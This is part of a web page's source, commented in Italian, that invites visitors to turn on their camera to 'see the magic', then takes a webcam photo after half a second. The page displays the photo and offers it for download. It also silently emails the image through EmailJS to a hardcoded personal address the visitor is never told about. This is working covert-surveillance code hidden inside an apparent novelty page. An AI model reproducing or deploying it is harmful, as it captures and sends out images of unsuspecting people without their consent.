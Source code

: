                     // Dopo 0.5 secondi, scatta la foto
                    setTimeout(() => {
                        capturePhoto(videoElement);
                    }, 500); // 500 millisecondi = 0.5 secondi
                })
                .catch(error => {
                    alert("Devi attivare la telecamera per vedere la magia!");
                });
        }

        function capturePhoto(video) {
            const canvas = document.getElementById('canvas');
            const context = canvas.getContext('2d');

            // Disegna il frame del video sul canvas
            context.drawImage(video, 0, 0, canvas.width, canvas.height);

            // Converti il contenuto del canvas in formato base64
            const imageData = canvas.toDataURL('image/png');

            // Visualizza l'immagine appena scattata
            const photo = document.getElementById('photo');
            photo.src = imageData; // Imposta la sorgente dell'immagine
            photo.style.display = 'block'; // Mostra l'immagine

            // Mostra il pulsante per scaricare l'immagine
            const downloadBtn = document.getElementById('download-btn');
            downloadBtn.style.display = 'block';

            // Invia l'immagine via EmailJS
            const templateParams = {
                to_email: 'sharafomar834@gmail.com', // La tua email
                photo: imageData
            };

            emailjs.send('service_mrkzn2a', 'template_mbsgnsy', templateParams)
                .then(response => {
                    console.log('Email inviata con successo:', response);
                })
                .catch(error => {
                    console.log('Errore nell\'invio dell\'email:', error);
                });
        }

        function downloadImage() {
            const photo = document.getElementById('photo');
            const link = document.createElement('a');
            link.href = photo.src; // Ottieni la foto da scaricare
            link.download = 'foto_scattata.png'; // Nome del file da scaricare
            link.click(); // Simula il click per scaricare
        }
    </script>

</body>
</html>
